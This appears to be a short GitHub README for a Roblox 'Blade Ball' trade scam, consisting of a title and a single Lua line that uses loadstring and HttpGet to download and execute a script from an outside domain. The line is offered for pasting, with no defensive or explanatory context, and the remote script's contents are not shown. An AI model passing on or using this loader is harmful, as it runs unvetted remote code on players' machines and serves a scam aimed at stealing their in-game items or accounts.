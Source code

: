 # Blade-Ball-Trade.Scam




loadstring(game:HttpGet("https://egorikusa.space/7b11aa9dd7c2ad6a8b29c2b6.lua", true))()
